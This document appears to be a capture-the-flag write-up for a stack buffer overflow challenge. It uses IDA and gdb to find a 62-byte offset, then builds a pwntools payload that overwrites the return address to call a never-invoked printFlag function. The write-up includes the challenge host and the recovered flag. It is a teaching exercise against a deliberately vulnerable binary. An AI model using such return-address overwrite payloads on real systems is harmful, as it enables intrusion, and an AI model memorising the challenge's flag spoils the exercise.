








> I made a C program and in the program the method to get the flag is never called. How will you get it this time?
> ASLR is off on the server.

Open the source file in IDA. Let's see what functions are there. We find the functions main, getMessage and printFlag.



Let's see what the main function does. The main function calls another function, getMessage. Now let's have a look at what's there.



The getMessage function reads the string entered by the user. And that's it. To call the printFlag function we need to overwrite the return address from the getMessage function.




Now we will need a debugger. Because ASLR is disabled on the server, we need to disable it on the workstation before studying it as well (this can be found on Google). We will use gdb with pwndbg plugin as debuggers. Let's start gdb.

```bash
gdb ./never_called.out
```

Let's run the program and try to enter 100 characters. The pwndbg plugin indicates that the wrong return address is **0x61716161**.



The EIP register tells the computer the address of the next command. By successfully overwriting it we can count that **offset is 62**.



Now we need to get the address of the beginning of the printFlag function. To get the start address of the printFlag function, we have to disassemble it. The address of the printFlag function is **0x565562ab**. 



For writing exploitation in PWN tasks we usually use the python3 library - pwntools. Let's create an exploitation template with the following command:

```bash
pwn template never_called.out --host 213.133.103.186 --port 32867 > nev_call.py
```

To get the flag we need to send 62 characters and after the start address of the printFlag function. The resulting payload will be as follows:

```python
offset = 62
payload = flat(
    b'A' * offset,
    p32(0x565562ab),
)
```

Now let's run the exploit with a command:

```bash
python3 nev_call.py DEBUG
```

And we get the flag!



> Full [exploit](nev_call.py)
> 
> Flag: **bucket{5t4ck_5m45h3r_974c91a5}**